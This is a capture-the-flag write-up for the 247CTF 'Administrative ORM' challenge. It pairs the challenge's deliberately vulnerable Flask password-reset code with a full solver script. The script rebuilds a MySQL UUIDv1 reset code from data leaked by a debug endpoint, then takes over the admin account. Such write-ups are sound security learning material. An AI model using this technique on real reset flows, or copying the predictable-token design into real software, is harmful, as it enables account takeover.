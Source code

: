 # ADMINISTRATIVE ORM [HARD]

## Description

> We started building a custom ORM for user management. Can you find any bugs before we push to production?

## Source Code

<details><summary>Click here for source code in text format</summary>

```python
import pymysql.cursors
import pymysql, os, bcrypt, debug
from flask import Flask, request
from secret import flag, secret_key, sql_user, sql_password, sql_database, sql_host

class ORM():
    def __init__(self):
        self.connection = pymysql.connect(host=sql_host, user=sql_user, password=sql_password, db=sql_database, cursorclass=pymysql.cursors.DictCursor)

    def update(self, sql, parameters):
        with self.connection.cursor() as cursor:
          cursor.execute(sql, parameters)
          self.connection.commit()

    def query(self, sql, parameters):
        with self.connection.cursor() as cursor:
          cursor.execute(sql, parameters)
          result = cursor.fetchone()
        return result

    def get_by_name(self, user):
        return self.query('select * from users where username=%s', user)

    def get_by_reset_code(self, reset_code):
        return self.query('select * from users where reset_code=%s', reset_code)

    def set_password(self, user, password):
        password_hash = bcrypt.hashpw(password, bcrypt.gensalt())
        self.update('update users set password=%s where username=%s', (password_hash, user))

    def set_reset_code(self, user):
        self.update('update users set reset_code=uuid() where username=%s', user)

app = Flask(__name__)
app.config['DEBUG'] = False
app.config['SECRET_KEY'] = secret_key
app.config['USER'] = 'admin'

@app.route("/get_flag")
def get_flag():
    user_row = app.config['ORM'].get_by_name(app.config['USER'])
    if bcrypt.checkpw(request.args.get('password','').encode('utf8'), user_row['password'].encode('utf8')):
        return flag
    return "Invalid password for %s!" % app.config['USER']

@app.route("/update_password")
def update_password():
    user_row = app.config['ORM'].get_by_reset_code(request.args.get('reset_code',''))
    if user_row:
        app.config['ORM'].set_password(app.config['USER'], request.args.get('password','').encode('utf8'))
        return "Password reset for %s!" % app.config['USER']
    app.config['ORM'].set_reset_code(app.config['USER'])
    return "Invalid reset code for %s!" % app.config['USER']

@app.route("/statistics") # TODO: remove statistics
def statistics():
    return debug.statistics()

@app.route('/')
def source():
    return "<pre>%s</pre>" % open(__file__).read()

@app.before_first_request
def before_first():
    app.config['ORM'] = ORM()
    app.config['ORM'].set_password(app.config['USER'], os.urandom(32).hex())

@app.errorhandler(Exception)
def error(error):
    return "Something went wrong!"

if __name__ == "__main__":
    app.run()
```

</details>

## Short Solution Description / Tags

UUIDv1 Calculation

## Solution

The reset_code needed to change the password is automatically generated using MySQL's `UUID()` function, and it is a UUIDv1:

```python
    def set_reset_code(self, user):
        self.update('update users set reset_code=uuid() where username=%s', user)
```

[MySQL :: MySQL 8.2 Reference Manual :: 12.23 Miscellaneous Functions](https://dev.mysql.com/doc/refman/8.2/en/miscellaneous-functions.html#function_uuid)

> UUID() returns a value that conforms to UUID version 1 as described in RFC 4122.

Gathering the information by the /statistics endpoint such as a MAC Addreess to calculate the UUIDv1, change the password, and then got the flag.

solver.py

```python
from datetime import datetime
import re
import requests
from uuid import UUID

s = requests.Session()
# s.proxies = {"https": "http://127.0.0.1:8080"}
s.verify = False

requests.packages.urllib3.disable_warnings()

BASE_URL = "https://47b8ddea058e5ec2.247ctf.com"


def set_reset_code():
    s.get(f"{BASE_URL}/update_password")


def leak_uuid():
    res = s.get(f"{BASE_URL}/statistics")

    # e.g. last_reset: 2023-12-29 05:40:33.170573900
    m = re.findall(r"last_reset: (.*)", res.text)
    reset_time = m[0]

    # UUIDv1 Implementation: https://github.com/python/cpython/blob/3.12/Lib/uuid.py#L692-L695

    no_ns = datetime.strptime(reset_time[:-10], "%Y-%m-%d %H:%M:%S").strftime("%s")
    no_ns = str(int(no_ns) + 60 * 60 * 9)

    time_ns = no_ns + reset_time[-9:]
    time_ns = int(time_ns)
    timestamp = time_ns // 100 + 0x01B21DD213814000
    time_low = timestamp & 0xFFFFFFFF

    time_mid = (timestamp >> 32) & 0xFFFF

    time_hi_version = (timestamp >> 48) & 0x0FFF

    # e.g. HWaddr 02:42:AC:11:00:19
    m = re.findall(r"HWaddr ([0-9A-F:]{17})", res.text)
    node = m[0]
    node = int(node.replace(":", "").lower(), base=16)

    # e.g. clock_sequence: 3215
    m = re.findall(r"clock_sequence: ([0-9].*)", res.text)
    clock_seq = int(m[0])
    clock_seq_low = clock_seq & 0xFF
    clock_seq_hi_variant = (clock_seq >> 8) & 0x3F

    # UUID: https://docs.python.org/3/library/uuid.html#uuid.UUID
    uuid = UUID(
        fields=(
            time_low,
            time_mid,
            time_hi_version,
            clock_seq_hi_variant,
            clock_seq_low,
            node,
        ),
        version=1,
    )

    return str(uuid)


def main():
    set_reset_code()

    leaked_uuid = leak_uuid()
    s.get(f"{BASE_URL}/update_password", params={"reset_code": leaked_uuid})
    res = s.get(f"{BASE_URL}/get_flag")
    print(res.text)


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py
247CTF{[REDACTED]}
```
